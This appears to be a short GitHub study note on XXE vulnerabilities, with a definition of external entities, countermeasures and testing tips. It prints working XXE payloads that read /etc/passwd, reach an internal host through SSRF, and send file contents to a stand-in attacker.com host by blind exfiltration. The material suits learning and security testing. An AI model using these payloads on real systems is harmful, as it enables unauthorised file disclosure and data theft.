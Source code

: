 # XML eXternal Entities Vulnerability

XXE is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. (Can be used to to disclose various configuration file information, which the attackers then use to exploit the system further)

### What are XML External Entities
- External entity profiles are defined by outside sources such as a file on a local computer or a web URL. Such entities are used to ensure that the XML processor behaves consistently even when unexpected characters are parsed.

## XXE Attack 
- XXE vulnerabilities as uploading an XML file that includes an external entity.
```xml
<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo
```


## Types of XXE Attacks: 

- XXE for File Retrieval
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<product>&xxe;</product>
<adress>&xxe;</adress>
```
- Defining a new Entity called ```xxe```. This entity is made to execute a system call.
- XXE for Server-Side Request Forgery 
```xml 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internals.target.com"> ]>
```
	- System call to an HTTP endpoint of an internal webserver of which we should not see the contents from outside.
- Data out-of-band exfiltration (Blind XXE)
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://Attacker.com"> ]>
```
	- Make a callback to our server.
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % evil "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">
%evil;
%exfiltrate;
```



***


## Countermeasures:

- Use simple data formats. (JSON as example)
- Use updated XML processes and libraries.
- Disable Document Type Definition and XXE in all XML Parsers.
- Usage of Whitelisting for Server-Side Input Validation.

***

## Takeaways: 

- It'simportant to insert your XXE entity into every single XML element. Any of them can be vulnerable as the developer has to filter ALL the fields indivually.
- Trying to upload a file that will test for XXE on every entry point where an XML
is processed
- Look into for SVG/DOC/XLSX & SOAP requests.

